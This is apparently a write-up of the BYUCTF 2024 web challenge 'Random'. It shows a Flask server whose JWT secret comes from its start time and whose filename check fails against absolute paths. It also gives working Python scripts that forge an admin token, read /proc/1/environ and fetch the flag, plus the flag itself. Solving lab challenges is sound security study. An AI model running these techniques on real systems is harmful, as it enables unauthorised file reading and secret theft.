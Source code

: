 ```yaml
---
layout: post
title: BYUCTF 2024 | Random-writeup
date: 2024-05-23
tags: ['BYUCTF24']
---
```


# Web/Random

## Challenge Description

>I've only had the time to make the API, but it should be working properly. Please make sure it's secure. If you can read any file you want, I'll make sure to reward you!

Files: [server.zip](./assets/random.zip)

## Challenge Overview

When we visit the page, a webpage saying `Forbidden` is returned meaning we cannnot access this webpage right now.

![forbidden](./assets/forbidden.png)

So let's start by analyzing the files we are given. After unzipping, we can see that there is a file called `server.py`. This must be the file the conatains the code for the server.

```py
# imports
from flask import Flask, abort, request, make_response, Response
import hashlib, time, jwt, os


# initialize flask
app = Flask(__name__)
time_started = round(time.time())
APP_SECRET = hashlib.sha256(str(time_started).encode()).hexdigest()


# check authorization before request handling
@app.before_request
def check_auth():
    # ensure user is an administrator
    session = request.cookies.get('session', None)

    if session is None:
        abort(403)

    try:
        payload = jwt.decode(session, APP_SECRET, algorithms=['HS256'])
        if payload['userid'] != 0:
            abort(401)
    except:
        abort(Response(f'<h1>NOT AUTHORIZED</h1><br><br><br><br><br> This system has been up for {round(time.time()-time_started)} seconds fyi :wink:', status=403))


# list files
@app.route('/api/files', methods=['GET'])
def list_files():
    return os.listdir('files/')


# get a file
@app.route('/api/file', methods=['GET'])
def get_file():
    filename = request.args.get('filename', None)

    if filename is None:
        abort(Response('No filename provided', status=400))

    # prevent directory traversal
    while '../' in filename:
        print(filename)
        filename = filename.replace('../', '')
    print(filename)

    # get file contents
    return open(os.path.join('files/', filename),'rb').read()



if __name__ == "__main__":
    app.run(host='0.0.0.0', port=1337, threaded=True)
```

Analyzing the file, we see that before every request, a `check_auth()` function is run. This function retrieves the `session` cookie which is a `jwt` token. It then tries to decode the the token using an `APP_SECRET` and if the `userid` in the decoded token is not `0` then we cannot view the webpage. 

But there is another part in this function. If an error occurs while decoding the jwt, then it returns an error message along with `rount(time.time() - time_started)` which basically tells how long the server has been up.

The `APP_SECRET` is simply the rounded off value of the time when the server was started. So we could use the information returned in the error message to figure out the `APP_SECRET`.

Let's analyze the python file further now.

There are two more functions in there

* `list_files()`
    * Simply lists the files in the `files/` directory

* `get_file()`
    * Gets the `filename` parameter
    * Checks if it contains `../` in the `filename`, thus preventing us from viewing any files in parent directories
    * Returns the contents of the `filename` but notice that it uses the `os.path.join()` function to make the path to the file

Now, since our `flag.txt` is in the parent directory (you can see this in the `Dockerfile`), we have to figure out some way to pass that into the `get_file()` function but we cannot use `../`. Looking around for a bit, I found that we can do this by exploit how `os.path.join()` function works. If it encounters any of the inputs starting with `/` then it ignore any path before it.

So `os.path.join('files/', '/etc/passwd')` would actually return `/etc/passwd`. Checking the `Dockerfile` we see the the name of the directory where the flag is stored is randomized so we need to somehow find the entire path. 

## Exploit

Now let's get started on the exploit. So first we need to figure out the `APP_SECRET`.

```py
import requests, jwt
import hashlib, time

base_url = 'https://random.chal.cyberjousting.com/'
# base_url = 'http://127.0.0.1:1337/'

def see_files(secret_time):
    url = base_url + 'api/files'

    secret = hashlib.sha256(str(secret_time).encode()).hexdigest()
    algorithm = "HS256"
    payload = {"userid": 0}

    token = jwt.encode(payload, secret, algorithm)
    cookie={"session": token}
    r = requests.get(url, cookies=cookie)
    return r

print("current time:", time.time())
print(see_files(1337).text)
```
So using this above code, we first send a token with a random `APP_SECRET` and then we can see the `current time` and then the server will send us how long it has been up. So we can use this information to calculate the `APP_SECRET` as `APP_SECRET = CURRENT_TIME - UP_TIME`. 

It might not be exact after finding this value, I simply did a bruteforce in the range of `(APP_SECRET - 100, APP_SECRET + 100)` and using that, I found the `APP_SECRET = 1714441814`. 

So, now we have the first part done. Next, let's figure out how to read the file.

Now, in order to read the `flag` we must figure out the exact path of the flag. So, since we now have the ability to read files on the system, we can read the `/proc/{pid}/environ` to view the environment variables.

Well, since the challenge server is down right now, so I can't show you the environment variables but after viewing the file `/proc/1/environ`, I noticed that the `HOME` variable contained the path `/40c456eca822d997a6c2543171225c99`. Thus, we can now simply read the flag by going to `/40c456eca822d997a6c2543171225c99/flag.txt`.

```py
import requests, jwt
import hashlib, time

# base_url = 'https://random.chal.cyberjousting.com/'
base_url = 'http://127.0.0.1:1337/'

def see_files(secret_time):
    url = base_url + 'api/files'

    secret = hashlib.sha256(str(secret_time).encode()).hexdigest()
    algorithm = "HS256"
    payload = {"userid": 0}

    token = jwt.encode(payload, secret, algorithm)
    cookie={"session": token}
    r = requests.get(url, cookies=cookie)
    return r

def get_file(filename, secret_time):
    url = base_url + 'api/file?filename=' + filename

    secret = hashlib.sha256(str(secret_time).encode()).hexdigest()
    algorithm = "HS256"
    payload = {"userid": 0}

    token = jwt.encode(payload, secret, algorithm)
    cookie={"session": token}
    r = requests.get(url, cookies=cookie)
    return r
    
secret = 1714441814
# print(see_files(secret).text)
contents=f'/40c456eca822d997a6c2543171225c99/flag.txt'

response = get_file(contents, secret).text
print(response)
```

This gives us our flag `byuctf{expl01t_chains_involve_multiple_exploits_in_a_row}`.
